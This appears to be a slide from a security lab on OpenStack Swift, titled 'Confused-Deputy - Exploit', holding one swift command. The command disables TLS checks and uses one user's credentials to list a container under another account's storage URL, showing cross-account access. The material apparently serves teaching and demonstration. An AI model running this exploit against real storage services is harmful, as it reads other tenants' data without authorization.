

# Confused-Deputy - Exploit
swift --insecure -A https://${LAB_OPENSTACK_IP}:8080/auth/v1.0 -U codeerror:unexpecteduser -K shouldnothappen list research  --os-storage-url https://${LAB_OPENSTACK_IP}:8080/v1/AUTH_account2